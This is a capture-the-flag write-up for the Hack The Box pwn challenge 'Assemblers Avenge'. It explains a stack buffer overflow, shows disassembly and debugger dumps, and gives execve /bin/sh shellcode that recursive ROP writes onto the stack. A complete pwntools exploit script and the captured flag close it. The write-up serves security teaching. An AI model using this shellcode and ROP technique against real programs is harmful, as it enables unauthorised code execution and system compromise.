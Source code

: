 # HTB Distopia | Assemblers Avenge - PWN (Easy)

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec there are no memory protections on the binary.

```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void _read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a method to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- the address of the stack is unknown

### Exploitation

Tackling the first issue is pretty simple through using recursive calls to `_read`. By setting RIP to `_read`, the buffer overflow vulnerability can be abused multiple times to make numerous write to the stack. Only 8 bytes can be written on the stack that don't get overriden, so shellcode with a payload size of 24 bytes will take 3 calls to `_read`.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

Breaking after the `read` syscall is done executing the first 8 bytes of the shellcode are loaded.

```
pwndbg> x/20gx $rsp+0x8
0x7ffc01dcf290:	0x48f63148d2314850	0x4141414141414141
0x7ffc01dcf2a0:	0x000000000040106d	0x0000000000000000
```

Load the second part of the shellcode.

```
pwndbg> x/20gx $rsp
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x4141414141414141	0x000000000040106d
```

Load the third part of the shellcode.

```
pwndbg> x/20gx $rsp-0x08
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x050f3bb05f545300	0x4141414141414141
0x7ffd34e24580:	0x000000000040106d	0x0000000000000000
```

The complete shellcode should now be loaded to the stack

```
pwndbg> x/10i $rsp-0x8
0x7ffd34e24560:	push   rax
0x7ffd34e24561:	xor    rdx,rdx
0x7ffd34e24564:	xor    rsi,rsi
0x7ffd34e24567:	movabs rbx,0x68732f6e69622f
0x7ffd34e24571:	push   rbx
0x7ffd34e24572:	push   rsp
0x7ffd34e24573:	pop    rdi
0x7ffd34e24574:	mov    al,0x3b
0x7ffd34e24576:	syscall 
0x7ffd34e24578:	rex.B
```

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then it can also be used for jumping to the stack. The issue here is that RSI does not contain the location of the shellcode, but of the current buffer. Getting around this is pretty easy by using a relative jump instruction `jmp -0x1a`.

![img1](1.svg)

Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```
